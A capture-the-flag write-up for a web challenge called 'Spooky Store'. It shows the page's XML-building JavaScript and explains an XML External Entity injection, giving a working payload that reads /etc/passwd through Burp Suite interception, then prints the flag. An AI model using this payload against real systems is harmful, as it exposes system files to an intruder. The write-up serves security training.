

Spooky Store
=====

## Category: Web

> "It's a simple webpage with 3 buttons, you got this :)"

## Methodology
This webpage contains a vulnerability known as XXE, or XML External Entity injection. I'll admit I am no web pwner, but this one was interesting and fun (and relatively easy). If I can solve this one, nearly anyone can. 

## Reconnaissance
First thing we want to do is try to understand the attack surface. After probing around the website we can see where the injection should take place in the javascript below.


```javascript
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<locationCheck>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</locationCheck>';
    return xml;
}
```

## The exploit

I ended up firing up burpsuite and intercepting eveything going to through this webpage. Anytime I would click on one of the buttons, an XML sheet would be generated. In order to exploit this, you basically had to inject the textbook definition of XXE into the XML sheet and then forward the request.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<locationCheck><productId>&xxe;</productId></locationCheck>
```



> utflag{n3xt_y3ar_go1ng_bl1nd}
